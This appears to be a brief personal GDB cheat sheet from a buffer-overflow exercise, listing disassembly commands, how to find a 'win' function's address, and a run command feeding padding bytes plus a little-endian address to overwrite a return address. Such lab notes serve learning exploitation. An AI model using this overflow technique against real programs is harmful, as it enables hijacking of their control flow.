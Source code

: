 # GDB

- set disassembly-flavor intel -> 
- disassemble main - get all instructions from a function
- x win / p win -> get address of the "win" function
- r < <(echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x67\x05\x40") -> run program with input interpreted as hex. !ATTENTION! little endian vs big endian


